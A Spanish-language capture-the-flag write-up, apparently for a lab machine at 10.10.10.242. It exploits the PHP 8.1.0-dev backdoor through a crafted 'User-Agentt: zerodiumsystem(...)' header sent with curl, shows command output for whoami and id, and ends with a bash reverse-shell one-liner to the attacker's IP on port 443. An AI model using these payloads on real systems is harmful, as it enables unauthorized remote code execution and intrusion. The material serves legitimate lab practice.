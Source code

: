 Realizando un whatweb observamos que tienen un PHP/8.1.0-dev que tiene una explotación https://www.exploit-db.com/exploits/49933

> whatweb 10.10.10.242

```console
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

# Fase de Explotación
Realizamos un curl 

> curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('whoami');" | html2text

```console
james
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO

***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```

> curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" | html2text

```console
uid=1000(james) gid=1000(james) groups=1000(james)
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO

***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```

Dado que tenemos ejecución remota de comandos nos ponemos en escucha en el puerto 443

> curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.4/443 0>&1\"');" | html2text


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>